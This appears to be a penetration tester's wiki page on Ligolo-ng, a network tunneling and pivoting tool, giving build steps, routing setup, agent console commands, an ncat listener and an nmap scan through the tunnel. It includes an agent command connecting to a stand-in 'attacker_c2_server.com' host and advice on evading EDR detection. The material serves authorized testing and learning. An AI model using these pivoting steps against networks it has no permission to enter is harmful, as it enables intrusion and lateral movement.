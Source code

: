 # Ligolo-ng

[Ligolo-ng](https://github.com/Nicocha30/ligolo-ng) states its *"a advanced, yet simple, tunneling/pivoting tool that uses a TUN interface."*

Unlike [[Chisel]], [[Metasploit]]'s Metapreter or Ligolo, Ligolo-ng creates userland network stack using [Gvisor](https://gvisor.dev/) a *"open-source Linux-compatible sandbox that runs anywhere existing container tooling does. It enables cloud-native container security and portability. gVisor leverages years of experience isolating production workloads at Google."*. In affect no [[Proxychains]] is required, which can be good in some circumstances where you do not want to micromanage your proxy nodes and routing. Beware that both Gvisor and Ligolo-ng, like Chisel are written in [[Golang]], which has Google Telemetry. From a OPSEC perspective this creates interfaces, which [[EDR]]s are going to alert on as Gvisor is userland communicating with the kernel to hold that interface in memory and track it. It is also Golang so remote loading into memory from a beacon would be lot of your packet economy spent. It would however be very useful for time constrained and empirical [[Penetration-Testing]] that does not have OPSEC concerns. Even then agent runs without privileges so cannot forward raw packets. Regardless is very useful tool!

Build `ligolo-ng` agent and proxy.
```bash
$ go build -o agent cmd/agent/main.go
$ go build -o proxy cmd/proxy/main.go
# Build for Windows
$ GOOS=windows go build -o agent.exe cmd/agent/main.go
$ GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```


Linux Setup
```bash
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (check architecture!).

General network architecture assumptions for the rest of this page unless otherwise stated
```goat
[c2 server] ----- [ligolo-ng proxy] ----- [agent] 
```
Examples and setup:
```bash
# Agent
$ ./agent -ignore-cert 
$ ./agent -connect attacker_c2_server.com:11601

# Proxy server
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates NOT RECOMMENDED
```

Adding Routes on Linux
```
sudo ip route add 192.168.0.0/24 dev ligolo
```
Adding Routes on Windows
```powershell
netsh int ipv4 show interfaces
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

```powershell
[Agent : nchatelain@nworkstation] » start_tunnel
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
# And with custom tuntap interface
[Agent : nchatelain@nworkstation] » start_tunnel --tun mycustomtuntap
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

And finally agent/listener binding:
```powershell
# In ligolo-ng agent session
[Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
INFO[1208] Listener created on remote agent!   
# listener_list for listing all listeners
[Agent : nchatelain@nworkstation] » listener_list 
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ nchatelain@nworkstation │ 0.0.0.0:1234           │ 127.0.0.1:4321         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
# Stop a listener
[Agent : nchatelain@nworkstation] » listener_stop 0
INFO[1505] Listener closed.                             
```

```bash
rlwrap ncat -lvnp 4321
```

Then for accessing agent's local interfaces
```bash
# From c2 add the route
$ sudo ip route add 240.0.0.1/32 dev ligolo
# Nmap scan
$ nmap 240.0.0.1 -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-30 22:17 CET
Nmap scan report for 240.0.0.1
Host is up (0.023s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
8000/tcp open http SimpleHTTPServer 0.6 (Python 3.9.2)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```
## References

[Ligolo-ng](https://github.com/Nicocha30/ligolo-ng)
[Gvisor](https://gvisor.dev/)